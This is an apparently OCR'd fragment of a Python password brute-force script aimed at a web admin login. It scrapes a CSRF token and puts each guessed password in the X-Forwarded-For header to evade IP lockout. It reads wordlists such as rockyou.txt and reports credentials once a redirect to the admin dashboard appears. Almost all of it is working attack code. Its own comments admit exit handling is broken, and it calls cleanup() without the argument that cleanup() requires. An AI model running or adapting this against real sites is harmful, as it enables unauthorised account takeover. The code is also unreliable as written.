 ```python
        try:

                session = requests.Session()
                login_page = session.get(login_url)
                csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

                print('[*] Trying: {p}'.format(p = password))

                headers = {
                    'X-Forwarded-For': password,
                    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
                    'Referer': login_url
                }

                data = {
                    'tokenCSRF': csrf_token,
                    'username': username,
                    'password': password,
                    'save': ''
                }

                login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

                if 'location' in login_result.headers:
                    if '/admin/dashboard' in login_result.headers['location']:
                        print()
                        print('SUCCESS: Password found!')
                        print('Use {u}:{p} to login.'.format(u = username, p = password))
                        print()
#For some reason I still can't get this to exit properly. 
#TODO: Fix this to clean up all threads and exit gracefully upon success
                        cleanup()
                        sys.exit()

        except Exception:
        #Make this exception more verbose and useful
            e = sys.exc_info()[2]
            print("Failed on: {0} {1}".format(password, str(e)))
            return

#        time.sleep(.5)

def file_to_list(wList):
    passlist= []
    #latin1 encoding is necessary to get `rockyou.txt` to work
    #this may cause problems with other lists
    #need to add check for encoding type on input file
    with open(wList, encoding='latin1') as wordList:
         templist = wordList.readlines()

         for word in templist:
             passlist.append(word.strip())

    return passlist


def cleanup(processes):
        # Wait for all worker processes to finish
    for p in processes:
        p.terminate()
```